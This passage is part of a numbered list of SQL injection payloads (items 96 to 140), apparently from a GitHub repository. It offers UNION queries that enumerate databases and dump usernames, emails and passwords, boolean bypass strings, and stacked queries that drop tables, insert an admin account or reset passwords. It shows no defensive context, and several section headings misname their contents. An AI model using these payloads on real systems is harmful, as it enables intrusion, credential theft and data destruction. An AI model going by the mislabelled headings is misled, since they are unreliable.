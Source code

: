 96. `' UNION ALL SELECT 1, (SELECT SUBSTRING(@@version, 1, 1))--`
97. `' UNION ALL SELECT 1, (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())--`
98. `' UNION ALL SELECT 1, (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users')--`
99. `' UNION ALL SELECT 1, (SELECT IFNULL(SUBSTRING(@@version, 1, 1), 'NULL'))--`
100. `' UNION ALL SELECT 1, (SELECT IFNULL(GROUP_CONCAT(user()), 'NULL'))--`

### Multiple-Parameter SQL Injection
101. `' OR 1=1 AND 1=1--`
102. `' OR 1=1 AND 'x'='x'--`
103. `' OR 'a'='a' AND '1'='1'--`
104. `' OR '1'='1' AND '1'='1'--`
105. `' OR 'a'='a' AND 'x'='x'--`
106. `' OR 1=1 AND 2=2--`
107. `' OR 'x'='x' AND 1=1--`
108. `' OR '1'='1' AND 1=2--`
109. `' OR 'a'='a' AND '1'='2'--`
110. `' OR '1'='1' AND 'x'='x'--`
111. `' OR 'a'='a' AND 1=1--`
112. `' OR 1=1 AND 'a'='a'--`
113. `' OR '1'='1' AND 'a'='b'--`
114. `' OR 1=1 AND '1'='1'--`
115. `' OR 'x'='x' AND 2=2--`
116. `' OR '1'='1' AND 2=2--`
117. `' OR 1=1 AND 'b'='b'--`
118. `' OR 'x'='x' AND 1=2--`
119. `' OR 1=1 AND 'b'='c'--`
120. `' OR 'a'='a' AND '2'='2'--`

### Second-Order SQL Injection
121. `'; DROP TABLE users--`
122. `'; INSERT INTO users (username, password) VALUES ('admin', 'admin')--`
123. `'; UPDATE users SET password='password' WHERE username='admin'--`
124. `'; DELETE FROM users WHERE username='admin'--`
125. `'; SELECT * FROM users WHERE username='admin'--`
126. `'; SELECT * FROM users WHERE username='test' AND password='password'--`
127. `'; INSERT INTO logs (message) VALUES ('Injection test')--`
128. `'; UPDATE logs SET message='Injected' WHERE id=1--`
129. `'; DELETE FROM logs WHERE id=1--`
130. `'; SELECT * FROM logs--`

### XML-Based SQL Injection
131. `' OR 1=1 UNION SELECT 1, concat(username, ':', password) FROM users--`
132. `' OR 1=1 UNION SELECT 1, concat(email, ':', password) FROM users--`
133. `' OR 1=1 UNION SELECT 1, concat(id, ':', password) FROM users--`
134. `' OR 1=1 UNION SELECT 1, concat(first_name, ':', last_name) FROM employees--`
135. `' OR 1=1 UNION SELECT 1, concat(name, ':', description) FROM products--`
136. `' OR 1=1 UNION SELECT 1, concat(first_name, ' ', last_name) FROM customers--`
137. `' OR 1=1 UNION SELECT 1, concat(id, ':', balance) FROM accounts--`
138. `' OR 1=1 UNION SELECT 1, concat(phone, ':', address) FROM contacts--`
139. `' OR 1=1 UNION SELECT 1, concat(order_id, ':', status) FROM orders--`
140. `' OR 1=1 UNION SELECT 1, concat(user_id, ':', points) FROM rewards--`
